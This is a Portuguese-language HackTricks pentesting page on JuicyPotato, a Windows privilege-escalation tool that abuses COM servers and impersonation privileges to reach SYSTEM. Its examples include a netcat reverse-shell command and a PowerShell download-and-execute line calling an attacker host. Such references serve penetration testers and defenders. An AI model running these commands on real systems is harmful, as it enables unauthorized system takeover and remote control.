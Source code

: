 # JuicyPotato

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> - <a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de cibersegurança**? Gostaria de ver sua **empresa anunciada no HackTricks**? ou gostaria de ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) **grupo Discord** ou ao **grupo telegram** ou **siga-me no Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

{% hint style="warning" %}
**JuicyPotato não funciona** no Windows Server 2019 e no Windows 10 a partir da compilação 1809. No entanto, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) podem ser usados para **alavancar os mesmos privilégios e obter acesso de nível `NT AUTHORITY\SYSTEM`**. _**Verifique:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abusando dos privilégios dourados) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Uma versão açucarada do_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, com um pouco de suco, ou seja, **outra ferramenta de Escalada de Privilégios Local, de Contas de Serviço do Windows para NT AUTHORITY\SYSTEM**_

#### Você pode baixar o juicypotato em [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Resumo <a href="#summary" id="summary"></a>

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) e suas [variantes](https://github.com/decoder-it/lonelypotato) alavancam a cadeia de escalada de privilégios com base no serviço [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) tendo o ouvinte MiTM em `127.0.0.1:6666` e quando você tem privilégios `SeImpersonate` ou `SeAssignPrimaryToken`. Durante uma revisão de compilação do Windows, encontramos uma configuração onde o `BITS` foi intencionalmente desativado e a porta `6666` foi utilizada.

Decidimos tornar [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) uma arma: **Dê as boas-vindas ao Juicy Potato**.

> Para a teoria, veja [Rotten Potato - Escalada de Privilégios de Contas de Serviço para SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) e siga a cadeia de links e referências.

Descobrimos que, além do `BITS`, existem vários servidores COM que podemos abusar. Eles só precisam:

1. ser instanciáveis pelo usuário atual, normalmente um "usuário de serviço" que possui privilégios de impersonação
2. implementar a interface `IMarshal`
3. ser executados como um usuário elevado (SYSTEM, Administrador, ...)

Após alguns testes, obtivemos e testamos uma extensa lista de [CLSID's interessantes](http://ohpe.it/juicy-potato/CLSID/) em várias versões do Windows.

### Detalhes suculentos <a href="#juicy-details" id="juicy-details"></a>

O JuicyPotato permite que você:

* **CLSID de Destino** _escolha qualquer CLSID que desejar._ [_Aqui_](http://ohpe.it/juicy-potato/CLSID/) _você pode encontrar a lista organizada por SO._
* **Porta de Escuta COM** _defina a porta de escuta COM que preferir (em vez do 6666 codificado por padrão)_
* **Endereço IP de Escuta COM** _vincule o servidor a qualquer IP_
* **Modo de criação de processo** _dependendo dos privilégios do usuário de impersonação, você pode escolher entre:_
* `CreateProcessWithToken` (necessita de `SeImpersonate`)
* `CreateProcessAsUser` (necessita de `SeAssignPrimaryToken`)
* `ambos`
* **Processo a ser iniciado** _inicie um executável ou script se a exploração for bem-sucedida_
* **Argumento do Processo** _personalize os argumentos do processo iniciado_
* **Endereço do Servidor RPC** _para uma abordagem furtiva, você pode autenticar-se em um servidor RPC externo_
* **Porta do Servidor RPC** _útil se você deseja autenticar-se em um servidor externo e o firewall está bloqueando a porta `135`..._
* **Modo de TESTE** _principalmente para fins de teste, ou seja, testar CLSIDs. Ele cria o DCOM e imprime o usuário do token. Veja_ [_aqui para testar_](http://ohpe.it/juicy-potato/Test/)

### Uso <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Pensamentos Finais <a href="#final-thoughts" id="final-thoughts"></a>

Se o usuário tiver privilégios `SeImpersonate` ou `SeAssignPrimaryToken`, então você é **SYSTEM**.

É quase impossível prevenir o abuso de todos esses Servidores COM. Você poderia pensar em modificar as permissões desses objetos via `DCOMCNFG`, mas boa sorte, isso será desafiador.

A solução atual é proteger contas sensíveis e aplicativos que são executados sob as contas `* SERVICE`. Parar o `DCOM` certamente inibiria esse exploit, mas poderia ter um impacto sério no sistema operacional subjacente.

De: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Exemplos

Nota: Visite [esta página](https://ohpe.it/juicy-potato/CLSID/) para obter uma lista de CLSIDs para tentar.

### Obter um shell reverso com nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Iniciar um novo CMD (se tiver acesso RDP)

![](<../../.gitbook/assets/image (37).png>)

## Problemas com CLSID

Muitas vezes, o CLSID padrão que o JuicyPotato usa **não funciona** e o exploit falha. Geralmente, são necessárias várias tentativas para encontrar um **CLSID funcional**. Para obter uma lista de CLSIDs para tentar em um sistema operacional específico, você deve visitar esta página:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Verificando CLSIDs**

Primeiro, você precisará de alguns executáveis além do juicypotato.exe.

Baixe [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) e carregue-o em sua sessão PS, e baixe e execute [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Esse script criará uma lista de CLSIDs possíveis para testar.

Em seguida, baixe [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(altere o caminho para a lista de CLSID e para o executável juicypotato) e execute-o. Ele começará a tentar cada CLSID e **quando o número da porta mudar, significará que o CLSID funcionou**.

**Verifique** os CLSIDs funcionais **usando o parâmetro -c**
